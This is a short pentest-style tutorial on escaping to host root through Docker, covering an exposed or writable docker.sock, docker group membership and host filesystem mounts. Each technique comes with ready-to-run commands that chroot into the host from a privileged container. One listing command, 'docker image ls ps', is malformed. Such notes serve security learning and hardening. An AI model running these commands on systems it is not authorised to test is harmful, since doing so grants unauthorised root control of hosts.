 ### **Introduction**

Docker is a tool designed to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all parts needed, such as libraries and dependencies.

### **Docker Shared Directories**

Shared directories (volume mounts) between the host system and Docker containers can be exploited if improperly configured. If sensitive files are shared with the container, they can be accessed and used for escalation.

1.  Check if the Docker socket is exposed.  
    `hackfast@ubuntu:/# ls -l /var/run/docker.sock`  

    ![](../../../img/Linux-Environment/92.png)

2.  Use the docker image to list all running containers.  
    `hackfast@ubuntu:/# docker image ls ps`  
    
    ![](../../../img/Linux-Environment/93.png)

3.  Start a new privileged container with access to the host filesystem.  
    `hackfast@ubuntu:/# docker -H unix:///var/run/docker.sock run --rm -it --privileged -v /:/host ubuntu chroot /host`  
    
    ![](../../../img/Linux-Environment/94.png)

### **Docker Group Membership**

If a user is a member of the docker group, they can effectively run commands as root because Docker daemon commands have root privileges.

1.  Verify if the current user is in the docker group.  
    `hackfast@ubuntu:~$ id`  
    
    ![](../../../img/Linux-Environment/95.png)
    
2.  Use Docker to start a container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    ![](../../../img/Linux-Environment/96.png)
    

### **Writable Docker Socket**

A writable Docker socket (/var/run/docker.sock) can allow users to run Docker commands as root, leading to full control over the host system.

1.  Verify if the Docker socket is writable.  
    `hackfast@ubuntu:~$ ls -l /var/run/docker.sock`  
    
    ![](../../../img/Linux-Environment/97.png)
    
2.  Use the writable Docker socket to start a new container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    ![](../../../img/Linux-Environment/98.png)